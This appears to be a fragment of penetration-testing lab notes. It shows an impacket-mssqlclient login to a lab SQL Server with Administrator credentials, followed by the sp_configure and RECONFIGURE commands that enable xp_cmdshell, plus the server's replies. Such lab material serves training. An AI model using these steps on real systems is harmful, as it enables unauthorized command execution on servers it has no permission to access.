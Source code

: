 ### MANUAL CODE EXECUTION

└─$ impacket-mssqlclient Administrator:Lab123@192.168.231.18 -windows-auth

SQL> **EXECUTE sp_configure 'show advanced options', 1;**
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.  ****
SQL> **RECONFIGURE; - to configure**
SQL> **EXECUTE sp_configure 'xp_cmdshell**', 1; **to open the xp_cmdshell**
 INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> **RECONFIGURE   ----applies all the changes**
SQL> 

